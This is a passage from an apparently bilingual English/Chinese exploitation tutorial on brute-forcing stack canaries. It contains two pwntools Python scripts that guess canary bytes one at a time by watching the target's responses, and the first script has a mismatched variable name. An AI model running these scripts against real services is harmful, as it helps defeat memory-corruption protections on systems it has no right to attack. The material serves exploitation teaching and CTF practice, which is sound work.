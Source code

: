 ```python
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base
    
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```

## Example 2

This is implemented for 32 bits, but this could be easily changed to 64bits.\

这是针对32位实施的，但可以轻松地更改为64位。\ \
Also note that for this example the **program expected first a byte to indicate the size of the input** and the payload.

另请注意，在此示例中，**程序预计首先要指示输入**和有效载荷的大小。

```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
	known_canary = b""
	test_canary = 0x0
	len_bytes_to_read = 0x21
	
	for j in range(0, 4):
		# Iterate up to 0xff times to brute force all posible values for byte
		for test_canary in range(0xff):
			print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")
			
			# Send the current input size
			target.send(len_bytes_to_read.to_bytes(1, "little"))

			# Send this iterations canary
			target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

			# Scan in the output, determine if we have a correct value
			output = target.recvuntil(b"exit.")
			if b"YUM" in output:
				# If we have a correct value, record the canary value, reset the canary value, and move on
				print(" - next byte is: " + hex(test_canary))
				known_canary = known_canary + test_canary.to_bytes(1, "little")
				len_bytes_to_read += 1
				break

	# Return the canary
	return known_canary

# Start the target process
```
